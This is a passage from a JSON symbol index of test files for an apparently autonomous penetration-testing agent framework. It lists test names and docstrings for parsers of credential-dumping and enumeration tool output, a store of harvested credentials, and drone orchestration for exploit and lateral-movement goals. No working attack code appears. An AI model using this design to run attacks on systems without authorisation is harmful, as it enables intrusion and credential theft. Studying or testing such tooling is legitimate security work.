_emit calls each produce a separate JSON line.", "kind": "method", "line": 521, "name": "test_multiple_emits_append_lines", "signature": "def test_multiple_emits_append_lines(self)"}, {"kind": "method", "line": 540, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 546, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "Build a mock ObjectiveStore that returns a mock objective.", "kind": "method", "line": 550, "name": "_make_mock_store", "signature": "def _make_mock_store(self)"}, {"doc": "mcp_autonomous_inject writes to both ObjectiveStore and tasks.json.", "kind": "method", "line": 562, "name": "test_injects_to_objective_store_and_tasks_json", "signature": "def test_injects_to_objective_store_and_tasks_json(self)"}, {"doc": "Return value contains both objective id and task_id.", "kind": "method", "line": 581, "name": "test_returns_json_with_both_ids", "signature": "def test_returns_json_with_both_ids(self)"}, {"doc": "mcp_autonomous_inject returns error message when ObjectiveStore is None.", "kind": "method", "line": 596, "name": "test_returns_error_string_when_store_unavailable", "signature": "def test_returns_error_string_when_store_unavailable(self)"}, {"kind": "method", "line": 613, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 619, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "mcp_autonomous_status() returns parseable JSON.", "kind": "method", "line": 623, "name": "test_returns_valid_json", "signature": "def test_returns_valid_json(self)"}, {"doc": "Status JSON contains 'running', 'objectives_done', 'steps_run'.", "kind": "method", "line": 631, "name": "test_contains_expected_fields", "signature": "def test_contains_expected_fields(self)"}, {"doc": "'running' is False when no daemon thread is active.", "kind": "method", "line": 641, "name": "test_running_is_false_when_no_daemon", "signature": "def test_running_is_false_when_no_daemon(self)"}, {"doc": "Status is enriched from STATUS_FILE when it exists.", "kind": "method", "line": 650, "name": "test_merges_status_file_when_present", "signature": "def test_merges_status_file_when_present(self)"}, {"kind": "method", "line": 673, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 679, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 683, "name": "_make_mock_objective", "signature": "def _make_mock_objective(self)"}, {"doc": "When next_pending() returns one objective and _run_objective succeeds,\nstore.complete() is called and task status is updated to Done.", "kind": "method", "line": 692, "name": "test_complete_called_after_successful_execution", "signature": "def test_complete_called_after_successful_execution(self)"}, {"doc": "When run_async raises an exception, store.block() is called and\ntask status is updated to Blocked.", "kind": "method", "line": 760, "name": "test_block_called_on_execution_failure", "signature": "def test_block_called_on_execution_failure(self)"}, {"doc": "objective_loop exits immediately when _ObjectiveStore is None.", "kind": "method", "line": 821, "name": "test_loop_disabled_when_objective_store_missing", "signature": "def test_loop_disabled_when_objective_store_missing(self)"}, {"kind": "class", "line": 140, "name": "_R", "signature": "class _R(ICommandRunner)"}, {"kind": "class", "line": 303, "name": "_S", "signature": "class _S(ICommandSelector)"}, {"kind": "class", "line": 343, "name": "CapturingSelector", "signature": "class CapturingSelector(ICommandSelector)"}, {"kind": "function", "line": 706, "name": "_next_pending", "signature": "def _next_pending()"}, {"kind": "function", "line": 721, "name": "_fake_run_async", "signature": "def _fake_run_async(objective_id, objective_text, target)"}, {"kind": "function", "line": 745, "name": "_run_loop", "signature": "def _run_loop()"}, {"kind": "function", "line": 772, "name": "_next_pending", "signature": "def _next_pending()"}, {"kind": "function", "line": 784, "name": "_failing_run_async", "signature": "def _failing_run_async(objective_id, objective_text, target)"}, {"kind": "function", "line": 807, "name": "_run_loop", "signature": "def _run_loop()"}, {"kind": "function", "line": 831, "name": "_run_loop", "signature": "def _run_loop()"}, {"kind": "method", "line": 142, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 145, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 304, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 344, "name": "select", "signature": "def select(self, target, phase, context)"}]}, {"doc": "Tests for lazyown_facts.py — parsers and FactStore.  All file I/O uses tmp_path (pytest) or tempfile.TemporaryDirectory. No writes to the real sessions/ directory.", "id": "skills/tests/test_facts.py", "kind": "module", "label": "test_facts.py", "language": "py", "sha256": "c2a6a120b86e9197", "symbol_count": 37, "symbols": [{"doc": "Return a Config pointing entirely at tmp_path.", "kind": "function", "line": 42, "name": "_make_config", "signature": "def _make_config(tmp_path)"}, {"kind": "class", "line": 61, "name": "TestCrackMapExecParser", "signature": "class TestCrackMapExecParser"}, {"kind": "class", "line": 81, "name": "TestEnum4linuxParser", "signature": "class TestEnum4linuxParser"}, {"kind": "class", "line": 105, "name": "TestSecretsdumpParser", "signature": "class TestSecretsdumpParser"}, {"kind": "class", "line": 119, "name": "TestKerbruteParser", "signature": "class TestKerbruteParser"}, {"kind": "class", "line": 138, "name": "TestRpcclientParser", "signature": "class TestRpcclientParser"}, {"kind": "class", "line": 149, "name": "TestGobusterParser", "signature": "class TestGobusterParser"}, {"kind": "class", "line": 176, "name": "TestNiktoParser", "signature": "class TestNiktoParser"}, {"kind": "class", "line": 196, "name": "TestNucleiParser", "signature": "class TestNucleiParser"}, {"kind": "class", "line": 218, "name": "TestSslscanParser", "signature": "class TestSslscanParser"}, {"kind": "class", "line": 246, "name": "TestNmapXmlParser", "signature": "class TestNmapXmlParser"}, {"kind": "class", "line": 300, "name": "TestFactStore", "signature": "class TestFactStore"}, {"doc": "CME output with [+] credential line → extracts CredentialFact.", "kind": "method", "line": 62, "name": "test_crackmapexec_parser", "signature": "def test_crackmapexec_parser(self)"}, {"doc": "Pwn3d! in CME output → AccessFact with level=admin.", "kind": "method", "line": 73, "name": "test_crackmapexec_pwned", "signature": "def test_crackmapexec_pwned(self)"}, {"doc": "enum4linux user + share line → extracts CredentialFact and ShareFact.", "kind": "method", "line": 82, "name": "test_enum4linux_parser", "signature": "def test_enum4linux_parser(self)"}, {"doc": "enum4linux that finds data → AccessFact with level=read.", "kind": "method", "line": 97, "name": "test_enum4linux_access_when_results", "signature": "def test_enum4linux_access_when_results(self)"}, {"doc": "NTLM hash line → CredentialFact with hash_type=NTLM.", "kind": "method", "line": 106, "name": "test_secretsdump_parser", "signature": "def test_secretsdump_parser(self)"}, {"doc": "VALID USERNAME line → CredentialFact.", "kind": "method", "line": 120, "name": "test_kerbrute_parser", "signature": "def test_kerbrute_parser(self)"}, {"kind": "method", "line": 129, "name": "test_kerbrute_multiple_users", "signature": "def test_kerbrute_multiple_users(self)"}, {"doc": "user:[Administrator] rid:[0x1f4] → CredentialFact.", "kind": "method", "line": 139, "name": "test_rpcclient_parser", "signature": "def test_rpcclient_parser(self)"}, {"doc": "/admin (Status: 200) [Size: 1234] → DiscoveredPath.", "kind": "method", "line": 150, "name": "test_gobuster_parser_parse_extended", "signature": "def test_gobuster_parser_parse_extended(self)"}, {"kind": "method", "line": 162, "name": "test_gobuster_multiple_paths", "signature": "def test_gobuster_multiple_paths(self)"}, {"doc": "OSVDB nikto line → VulnerabilityFact with severity=medium.", "kind": "method", "line": 177, "name": "test_nikto_parser_parse_extended", "signature": "def test_nikto_parser_parse_extended(self)"}, {"kind": "method", "line": 189, "name": "test_nikto_cve_line", "signature": "def test_nikto_cve_line(self)"}, {"doc": "[critical] [CVE-2021-41773] [http] http://host/ → VulnerabilityFact.", "kind": "method", "line": 197, "name": "test_nuclei_parser_parse_extended", "signature": "def test_nuclei_parser_parse_extended(self)"}, {"kind": "method", "line": 209, "name": "test_nuclei_multiple_severities", "signature": "def test_nuclei_multiple_severities(self)"}, {"doc": "TLSv1.0 enabled → VulnerabilityFact with severity=medium.", "kind": "method", "line": 219, "name": "test_sslscan_parser_parse_extended", "signature": "def test_sslscan_parser_parse_extended(self)"}, {"doc": "Same protocol appearing twice in output → only one VulnerabilityFact.", "kind": "method", "line": 231, "name": "test_sslscan_dedup", "signature": "def test_sslscan_dedup(self)"}, {"doc": "Minimal nmap XML string → ServiceFact objects (only open ports).", "kind": "method", "line": 270, "name": "test_nmap_xml_parse", "signature": "def test_nmap_xml_parse(self, tmp_path)"}, {"doc": "Malformed XML → empty list (no crash).", "kind": "method", "line": 286, "name": "test_nmap_xml_parse_invalid", "signature": "def test_nmap_xml_parse_invalid(self, tmp_path)"}, {"doc": "Injecting the same ServiceFact twice → only one entry stored.", "kind": "method", "line": 301, "name": "test_factstore_dedup", "signature": "def test_factstore_dedup(self, tmp_path)"}, {"doc": "Add service + cred facts, context_for_command('enum') returns port and username.", "kind": "method", "line": 322, "name": "test_context_for_command", "signature": "def test_context_for_command(self, tmp_path)"}, {"doc": "context_for_command on unknown host → empty dict.", "kind": "method", "line": 356, "name": "test_context_for_unknown_host", "signature": "def test_context_for_unknown_host(self, tmp_path)"}, {"doc": "Save facts to JSON then reload them correctly.", "kind": "method", "line": 363, "name": "test_factstore_save_and_reload", "signature": "def test_factstore_save_and_reload(self, tmp_path)"}, {"doc": "ingest_xml with valid file → service facts stored per-host.", "kind": "method", "line": 390, "name": "test_ingest_xml", "signature": "def test_ingest_xml(self, tmp_path)"}, {"doc": "ingest_text with CME output → credential stored for guessed host IP.", "kind": "method", "line": 416, "name": "test_ingest_text_crackmapexec", "signature": "def test_ingest_text_crackmapexec(self, tmp_path)"}, {"doc": "Injecting same CredentialFact twice → only one stored after dedup.", "kind": "method", "line": 429, "name": "test_dedup_creds", "signature": "def test_dedup_creds(self, tmp_path)"}]}, {"doc": "End-to-end test for the Claude Code-style harness layer.  Exercises all 7 systems in concert: 1. PermissionSystem (deny-first rules) 2. ContextCompactor (5-layer pipeline) 3. SessionTranscript (append-only JSONL with fork) 4. HookRegistry (sandbox/rate-limit/timing/audit) 5. ClaudeMdLoader (4-level hierarchy) 6. Auto-compact trigger 7. Defense-in-depth metrics  Run: python3 skills/tests/test_harness_e2e.py", "id": "skills/tests/test_harness_e2e.py", "kind": "module", "label": "test_harness_e2e.py", "language": "py", "sha256": "28792e260388f54c", "symbol_count": 10, "symbols": [{"kind": "function", "line": 33, "name": "check", "signature": "def check(label, cond, hint)"}, {"kind": "function", "line": 47, "name": "test_permissions", "signature": "def test_permissions(tmp)"}, {"kind": "function", "line": 98, "name": "test_compaction", "signature": "def test_compaction()"}, {"kind": "function", "line": 143, "name": "test_transcript", "signature": "def test_transcript(tmp)"}, {"kind": "function", "line": 182, "name": "test_hooks", "signature": "def test_hooks(tmp)"}, {"kind": "function", "line": 228, "name": "test_claudemd", "signature": "def test_claudemd(tmp)"}, {"kind": "function", "line": 263, "name": "test_auto_compact", "signature": "def test_auto_compact(tmp)"}, {"kind": "function", "line": 300, "name": "test_metrics", "signature": "def test_metrics(tmp)"}, {"kind": "function", "line": 332, "name": "test_integration", "signature": "def test_integration(tmp)"}, {"kind": "function", "line": 391, "name": "main", "signature": "def main()"}]}, {"doc": "skills/tests/test_hive_mind.py — Tests for hive_mind.py (SOLID refactoring)  All file I/O uses tmp_path (pytest) or tempfile.TemporaryDirectory. No external API calls. ChromaDB is mocked when not installed.", "id": "skills/tests/test_hive_mind.py", "kind": "module", "label": "test_hive_mind.py", "language": "py", "sha256": "3779ec41f99af01b", "symbol_count": 95, "symbols": [{"doc": "Return a fresh EpisodicStore backed by tmp_path.", "kind": "function", "line": 32, "name": "_make_episodic", "signature": "def _make_episodic(tmp_path)"}, {"doc": "Return a fresh SemanticStore (ChromaDB mocked or real if available).", "kind": "function", "line": 39, "name": "_make_semantic", "signature": "def _make_semantic(tmp_path, episodic)"}, {"doc": "Return a HiveMemory with real EpisodicStore and mocked SemanticStore.", "kind": "function", "line": 49, "name": "_make_hive_memory", "signature": "def _make_hive_memory(tmp_path)"}, {"doc": "Unit tests for EpisodicStore (SQLite FTS5).", "kind": "class", "line": 72, "name": "TestEpisodicStore", "signature": "class TestEpisodicStore"}, {"doc": "Unit tests for SemanticStore (ChromaDB, with fallback to episodic).", "kind": "class", "line": 152, "name": "TestSemanticStore", "signature": "class TestSemanticStore"}, {"doc": "Unit tests for HiveMemory (composition + deduplication).", "kind": "class", "line": 226, "name": "TestHiveMemory", "signature": "class TestHiveMemory"}, {"doc": "Unit tests for HiveBus (message passing).", "kind": "class", "line": 293, "name": "TestHiveBus", "signature": "class TestHiveBus"}, {"doc": "Unit tests for DronePool (thread management).", "kind": "class", "line": 346, "name": "TestDronePool", "signature": "class TestDronePool"}, {"doc": "Unit tests for QueenBrain (orchestration).", "kind": "class", "line": 428, "name": "TestQueenBrain", "signature": "class TestQueenBrain"}, {"doc": "Integration tests for HiveMind (spawn + recall after store).", "kind": "class", "line": 509, "name": "TestHiveMind", "signature": "class TestHiveMind"}, {"doc": "Tests for MCP tool handler functions.", "kind": "class", "line": 575, "name": "TestMCPHandlers", "signature": "class TestMCPHandlers"}, {"doc": "Unit tests for DroneStateStore (drone persistence across restarts).", "kind": "class", "line": 673, "name": "TestDroneStateStore", "signature": "class TestDroneStateStore"}, {"doc": "Tests for DronePool persistence: spawn persists, recover_from_store works.", "kind": "class", "line": 770, "name": "TestDronePoolWithPersistence", "signature": "class TestDronePoolWithPersistence"}, {"kind": "method", "line": 75, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 79, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "store() should return a non-empty string event_id.", "kind": "method", "line": 82, "name": "test_store_returns_nonempty_id", "signature": "def test_store_returns_nonempty_id(self)"}, {"doc": "Stored content can be retrieved by keyword.", "kind": "method", "line": 89, "name": "test_recall_keyword_found", "signature": "def test_recall_keyword_found(self)"}, {"doc": "Recall with an unrelated keyword returns empty list.", "kind": "method", "line": 97, "name": "test_recall_keyword_not_found", "signature": "def test_recall_keyword_not_found(self)"}, {"doc": "Multiple stored entries with the same keyword are all returned.", "kind": "method", "line": 104, "name": "test_recall_fts_multiple_hits", "signature": "def test_recall_fts_multiple_hits(self)"}, {"doc": "stats() returns correct episodic_events count.", "kind": "method", "line": 112, "name": "test_stats_counts_rows", "signature": "def test_stats_counts_rows(self)"}, {"doc": "forget() removes rows older than the cutoff.", "kind": "method", "line": 121, "name": "test_forget_old_events", "signature": "def test_forget_old_events(self)"}, {"doc": "forget(topic=X) only removes rows whose content contains X.", "kind": "method", "line": 132, "name": "test_forget_by_topic", "signature": "def test_forget_by_topic(self)"}, {"kind": "method", "line": 155, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 159, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "SemanticStore can be instantiated regardless of ChromaDB availability.", "kind": "method", "line": 162, "name": "test_instantiation", "signature": "def test_instantiation(self)"}, {"doc": "store() returns a non-empty string.", "kind": "method", "line": 169, "name": "test_store_returns_id", "signature": "def test_store_returns_id(self)"}, {"doc": "When ChromaDB collection is None, recall() delegates to episodic store.", "kind": "method", "line": 179, "name": "test_fallback_to_episodic_when_chroma_unavailable", "signature": "def test_fallback_to_episodic_when_chroma_unavailable(self)"}, {"doc": "When ChromaDB is mocked, recall() returns parsed results.", "kind": "method", "line": 192, "name": "test_recall_with_mock_chroma", "signature": "def test_recall_with_mock_chroma(self)"}, {"doc": "count() returns 0 when collection is None.", "kind": "method", "line": 212, "name": "test_count_returns_zero_when_unavailable", "signature": "def test_count_returns_zero_when_unavailable(self)"}, {"kind": "method", "line": 229, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 233, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "store() followed by recall() returns the stored content.", "kind": "method", "line": 236, "name": "test_store_and_recall", "signature": "def test_store_and_recall(self)"}, {"doc": "The same content stored twice appears only once in unified recall.", "kind": "method", "line": 244, "name": "test_recall_deduplication", "signature": "def test_recall_deduplication(self)"}, {"doc": "stats() returns dict with episodic_events and chroma_vectors.", "kind": "method", "line": 269, "name": "test_stats_contains_expected_keys", "signature": "def test_stats_contains_expected_keys(self)"}, {"doc": "forget() removes episodic entries older than cutoff.", "kind": "method", "line": 277, "name": "test_forget_delegates_to_episodic", "signature": "def test_forget_delegates_to_episodic(self)"}, {"kind": "method", "line": 296, "name": "setup_method", "signature": "def setup_method(self)"}, {"doc": "Published message arrives in recipient's mailbox.", "kind": "method", "line": 301, "name": "test_publish_and_receive", "signature": "def test_publish_and_receive(self)"}, {"doc": "Broadcast message (recipient='*') is included in any agent's receive().", "kind": "method", "line": 312, "name": "test_broadcast_received_by_everyone", "signature": "def test_broadcast_received_by_everyone(self)"}, {"doc": "pending_count() reflects queued messages.", "kind": "method", "line": 321, "name": "test_pending_count_after_publish", "signature": "def test_pending_count_after_publish(self)"}, {"doc": "After receive(), direct messages are removed from the mailbox.", "kind": "method", "line": 329, "name": "test_receive_drains_direct_mailbox", "signature": "def test_receive_drains_direct_mailbox(self)"}, {"kind": "method", "line": 349, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 353, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 356, "name": "_make_pool", "signature": "def _make_pool(self)"}, {"doc": "spawn() returns a non-empty string drone_id.", "kind": "method", "line": 365, "name": "test_spawn_returns_drone_id", "signature": "def test_spawn_returns_drone_id(self)"}, {"doc": "get_state() returns a DroneState for a known drone_id.", "kind": "method", "line": 374, "name": "test_get_state_returns_drone_state", "signature": "def test_get_state_returns_drone_state(self)"}, {"doc": "get_state() returns None for an unknown drone_id.", "kind": "method", "line": 386, "name": "test_get_state_unknown_id_returns_none", "signature": "def test_get_state_unknown_id_returns_none(self)"}, {"doc": "list_all() includes the just-spawned drone.", "kind": "method", "line": 392, "name": "test_list_all_includes_spawned_drone", "signature": "def test_list_all_includes_spawned_drone(self)"}, {"doc": "active_count() drops to 0 after the drone completes.", "kind": "method", "line": 401, "name": "test_active_count_decrements_when_done", "signature": "def test_active_count_decrements_when_done(self)"}, {"kind": "method", "line": 431, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 435, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 438, "name": "_make_queen", "signature": "def _make_queen(self)"}, {"doc": "plan() for an enum goal returns >= 2 tasks.", "kind": "method", "line": 446, "name": "test_plan_enum_returns_multiple_tasks", "signature": "def test_plan_enum_returns_multiple_tasks(self)"}, {"doc": "plan() for an exploit goal includes an exploit role.", "kind": "method", "line": 454, "name": "test_plan_exploit_goal", "signature": "def test_plan_exploit_goal(self)"}, {"doc": "plan() for Active Directory goal includes lateral role.", "kind": "method", "line": 461, "name": "test_plan_ad_goal", "signature": "def test_plan_ad_goal(self)"}, {"doc": "plan() for a generic goal returns tasks.", "kind": "method", "line": 468, "name": "test_plan_generic_goal", "signature": "def test_plan_generic_goal(self)"}, {"doc": "plan() with n_drones > template pads to the requested count.", "kind": "method", "line": 474, "name": "test_plan_n_drones_pads_to_requested", "signature": "def test_plan_n_drones_pads_to_requested(self)"}, {"doc": "dispatch() spawns drones and returns their IDs.", "kind": "method", "line": 480, "name": "test_dispatch_returns_drone_ids", "signature": "def test_dispatch_returns_drone_ids(self)"}, {"doc": "synthesize() returns a string with expected headings.", "kind": "method", "line": 489, "name": "test_synthesize_structure", "signature": "def test_synthesize_structure(self)"}, {"kind": "method", "line": 512, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 516, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "Build a fresh HiveMind with isolated storage.", "kind": "method", "line": 519, "name": "_make_hive", "signature": "def _make_hive(self)"}, {"doc": "spawn() creates a drone and returns its id.", "kind": "method", "line": 534, "name": "test_spawn_single_drone", "signature": "def test_spawn_single_drone(self)"}, {"doc": "Storing data in memory makes it retrievable via hive.recall().", "kind": "method", "line": 542, "name": "test_recall_from_memory_after_store", "signature": "def test_recall_from_memory_after_store(self)"}, {"doc": "status() dict contains 'active_drones', 'memory', 'queen_mailbox'.", "kind": "method", "line": 549, "name": "test_status_contains_expected_fields", "signature": "def test_status_contains_expected_fields(self)"}, {"doc": "drone_result() for unknown id returns dict with 'error' key.", "kind": "method", "line": 557, "name": "test_drone_result_unknown_id", "signature": "def test_drone_result_unknown_id(self)"}, {"doc": "forget() returns an integer (count of pruned entries).", "kind": "method", "line": 563, "name": "test_forget_returns_int", "signature": "def test_forget_returns_int(self)"}, {"kind": "method", "line": 578, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 584, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 588, "name": "_build_hive_and_patch", "signature": "def _build_hive_and_patch(self)"}, {"doc": "mcp_hive_plan() returns a string (text format, not JSON).", "kind": "method", "line": 610, "name": "test_mcp_hive_plan_returns_parseable_string", "signature": "def test_mcp_hive_plan_returns_parseable_string(self)"}, {"doc": "mcp_hive_status() returns valid JSON with expected keys.", "kind": "method", "line": 619, "name": "test_mcp_hive_status_contains_fields", "signature": "def test_mcp_hive_status_contains_fields(self)"}, {"doc": "mcp_hive_recall() returns a no-results string when memory is empty.", "kind": "method", "line": 629, "name": "test_mcp_hive_recall_no_results", "signature": "def test_mcp_hive_recall_no_results(self)"}, {"doc": "mcp_hive_forget() returns a message with 'Pruned' in it.", "kind": "method", "line": 636, "name": "test_mcp_hive_forget_returns_pruned_count", "signature": "def test_mcp_hive_forget_returns_pruned_count(self)"}, {"doc": "mcp_hive_spawn() for n_drones=1 returns JSON with drone_id.", "kind": "method", "line": 643, "name": "test_mcp_hive_spawn_single", "signature": "def test_mcp_hive_spawn_single(self)"}, {"doc": "mcp_hive_result() for unknown drone returns JSON with error key.", "kind": "method", "line": 652, "name": "test_mcp_hive_result_unknown_drone", "signature": "def test_mcp_hive_result_unknown_drone(self)"}, {"doc": "mcp_hive_collect() with empty csv returns helpful message.", "kind": "method", "line": 660, "name": "test_mcp_hive_collect_no_ids", "signature": "def test_mcp_hive_collect_no_ids(self)"}, {"kind": "method", "line": 676, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 680, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 683, "name": "_make_store", "signature": "def _make_store(self)"}, {"kind": "method", "line": 688, "name": "_make_state", "signature": "def _make_state(self, status)"}, {"doc": "upsert() persists a DroneState; load_all() retrieves it.", "kind": "method", "line": 700, "name": "test_upsert_and_load_all", "signature": "def test_upsert_and_load_all(self)"}, {"doc": "Calling upsert() twice with the same drone_id updates the record.", "kind": "method", "line": 709, "name": "test_upsert_updates_existing", "signature": "def test_upsert_updates_existing(self)"}, {"doc": "mark_interrupted() sets queued/running -> interrupted; completed stays.", "kind": "method", "line": 722, "name": "test_mark_interrupted_targets_queued_and_running", "signature": "def test_mark_interrupted_targets_queued_and_running(self)"}, {"doc": "load_interrupted() returns only drones with status='interrupted'.", "kind": "method", "line": 737, "name": "test_load_interrupted_returns_only_interrupted", "signature": "def test_load_interrupted_returns_only_interrupted(self)"}, {"doc": "delete_older_than(0) removes all records.", "kind": "method", "line": 750, "name": "test_delete_older_than_removes_stale", "signature": "def test_delete_older_than_removes_stale(self)"}, {"doc": "load_all() on a fresh store returns an empty list.", "kind": "method", "line": 759, "name": "test_load_all_empty_db", "signature": "def test_load_all_empty_db(self)"}, {"kind": "method", "line": 773, "name": "setup_method", "signature": "def setup_method(self)"}, {"kind": "method", "line": 777, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"kind": "method", "line": 780, "name": "_make_pool_with_store", "signature": "def _make_pool_with_store(self)"}, {"doc": "spawn() writes the initial 'queued' state to DroneStateStore.", "kind": "method", "line": 789, "name": "test_spawn_persists_initial_state", "signature": "def test_spawn_persists_initial_state(self)"}, {"doc": "recover_from_store() marks in-flight drones as interrupted.", "kind": "method", "line": 798, "name": "test_recover_from_store_marks_interrupted", "signature": "def test_recover_from_store_marks_interrupted(self)"}, {"doc": "requeue_interrupted() re-spawns all interrupted drones.", "kind": "method", "line": 825, "name": "test_requeue_interrupted_respawns_drones", "signature": "def test_requeue_interrupted_respawns_drones(self)"}, {"doc": "list_all() merges live drones and persisted history.", "kind": "method", "line": 844, "name": "test_list_all_includes_history", "signature": "def test_list_all_includes_history(self)"}, {"doc": "mcp_hive_recover() returns a helpful message when there is nothing to recover.", "kind": "method", "line": 862, "name": "test_mcp_hive_recover_no_interrupted", "signature": "def test_mcp_hive_recover_no_interrupted(self)"}, {"kind": "function", "line": 405, "name": "_instant_run", "signature": "def _instant_run(self_inner)"}]}, {"doc": "Smoke test for the MCP server: verify all 131 tools are registered.  Run: python3 skills/tests/test_mcp_smoke.py", "id": "skills/tests/test_mcp_smoke.py", "kind": "module", "label": "test_mcp_smoke.py", "language": "py", "sha256": "125ae463eecd3a1b", "symbol_count": 5, "symbols": [{"kind": "function", "line": 23, "name": "check", "signature": "def check(label, cond, hint)"}, {"doc": "Verify the MCP module can be imported without syntax errors.", "kind": "function", "line": 34, "name": "test_mcp_module_imports", "signature": "def test_mcp_module_imports()"}, {"doc": "Verify expected symbols are defined at module level.", "kind": "function", "line": 47, "name": "test_mcp_wellknown_symbols", "signature": "def test_mcp_wellknown_symbols(mcp)"}, {"doc": "Run list_tools() and verify it returns tool definitions.", "kind": "function", "line": 61, "name": "test_list_tools_returns_tools", "signature": "def test_list_tools_returns_tools(mcp)"}, {"kind": "function", "line": 92, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for lazyown_objective.py — ObjectiveStore and SoulUpdater.  All file I/O is redirected to tmp_path (pytest fixture). No writes to the real sessions/ directory.", "id": "skills/tests/test_objectives.py", "kind": "module", "label": "test_objectives.py", "language": "py", "sha256": "4281ebadf17b296d", "symbol_count": 28, "symbols": [{"doc": "Return an ObjectiveStore backed by tmp_path.", "kind": "function", "line": 31, "name": "_store", "signature": "def _store(tmp_path)"}, {"doc": "Return a SoulUpdater whose soul file lives in tmp_path.", "kind": "function", "line": 36, "name": "_soul_updater", "signature": "def _soul_updater(tmp_path)"}, {"kind": "class", "line": 51, "name": "TestObjectiveStore", "signature": "class TestObjectiveStore"}, {"kind": "class", "line": 204, "name": "TestSoulUpdater", "signature": "class TestSoulUpdater"}, {"doc": "inject() → objective appears in list_pending().", "kind": "method", "line": 52, "name": "test_inject_basic", "signature": "def test_inject_basic(self, tmp_path)"}, {"doc": "Inject same text twice → only one pending objective.", "kind": "method", "line": 62, "name": "test_dedup", "signature": "def test_dedup(self, tmp_path)"}, {"doc": "Low-priority objective with created_at 48h ago → cleanup() marks it skipped.", "kind": "method", "line": 74, "name": "test_ttl_expiry", "signature": "def test_ttl_expiry(self, tmp_path)"}, {"doc": "Inject low + critical → next_pending() returns critical.", "kind": "method", "line": 99, "name": "test_next_pending_priority", "signature": "def test_next_pending_priority(self, tmp_path)"}, {"doc": "Two medium objectives → next_pending() returns the earlier one (FIFO).", "kind": "method", "line": 109, "name": "test_next_pending_fifo_same_priority", "signature": "def test_next_pending_fifo_same_priority(self, tmp_path)"}, {"doc": "complete() marks objective as done.", "kind": "method", "line": 119, "name": "test_complete", "signature": "def test_complete(self, tmp_path)"}, {"doc": "block() marks objective as blocked with reason.", "kind": "method", "line": 129, "name": "test_block", "signature": "def test_block(self, tmp_path)"}, {"doc": "Invalid priority string → falls back to 'medium'.", "kind": "method", "line": 140, "name": "test_inject_invalid_priority_defaults_medium", "signature": "def test_inject_invalid_priority_defaults_medium(self, tmp_path)"}, {"doc": "Empty store → list_pending() returns [].", "kind": "method", "line": 146, "name": "test_list_pending_empty", "signature": "def test_list_pending_empty(self, tmp_path)"}, {"doc": "Empty store → next_pending() returns None.", "kind": "method", "line": 151, "name": "test_next_pending_none_when_empty", "signature": "def test_next_pending_none_when_empty(self, tmp_path)"}, {"doc": "Inject objective, create fresh store from same path → still in pending.", "kind": "method", "line": 156, "name": "test_objectives_persist_on_disk", "signature": "def test_objectives_persist_on_disk(self, tmp_path)"}, {"doc": "Medium-priority objective 80h old → expires (TTL=72h).", "kind": "method", "line": 166, "name": "test_cleanup_medium_72h_ttl", "signature": "def test_cleanup_medium_72h_ttl(self, tmp_path)"}, {"doc": "Critical-priority objective 1000h old → does NOT expire (TTL=None).", "kind": "method", "line": 182, "name": "test_cleanup_critical_never_expires", "signature": "def test_cleanup_critical_never_expires(self, tmp_path)"}, {"doc": "update_phase('exploit') → soul.md contains 'Phase:' followed by 'exploit'.", "kind": "method", "line": 205, "name": "test_soul_updater_patch_line", "signature": "def test_soul_updater_patch_line(self, tmp_path)"}, {"doc": "update_target('10.10.11.78') → soul.md contains 'Target: 10.10.11.78'.", "kind": "method", "line": 216, "name": "test_soul_updater_target_line", "signature": "def test_soul_updater_target_line(self, tmp_path)"}, {"doc": "update_credentials([{username, password}]) → soul.md has Known Credentials section.", "kind": "method", "line": 223, "name": "test_soul_updater_section", "signature": "def test_soul_updater_section(self, tmp_path)"}, {"doc": "update_credentials with hash_value → soul.md shows truncated hash with (NTLM) tag.", "kind": "method", "line": 231, "name": "test_soul_updater_credentials_hash", "signature": "def test_soul_updater_credentials_hash(self, tmp_path)"}, {"doc": "update_credentials with username only → shows 'username only' notation.", "kind": "method", "line": 241, "name": "test_soul_updater_credentials_username_only", "signature": "def test_soul_updater_credentials_username_only(self, tmp_path)"}, {"doc": "update_os() → soul.md has Detected OS section.", "kind": "method", "line": 249, "name": "test_soul_updater_section_os", "signature": "def test_soul_updater_section_os(self, tmp_path)"}, {"doc": "update_access() → soul.md has Achieved Access section.", "kind": "method", "line": 257, "name": "test_soul_updater_section_access", "signature": "def test_soul_updater_section_access(self, tmp_path)"}, {"doc": "update_vulnerabilities() → soul.md has Key Vulnerabilities section.", "kind": "method", "line": 265, "name": "test_soul_updater_vulnerabilities", "signature": "def test_soul_updater_vulnerabilities(self, tmp_path)"}, {"doc": "Calling update_phase twice → second value replaces first (not appended).", "kind": "method", "line": 274, "name": "test_soul_updater_patch_replaces_existing", "signature": "def test_soul_updater_patch_replaces_existing(self, tmp_path)"}, {"doc": "update_credentials([]) → soul.md unchanged (no section added).", "kind": "method", "line": 285, "name": "test_soul_updater_empty_creds_noop", 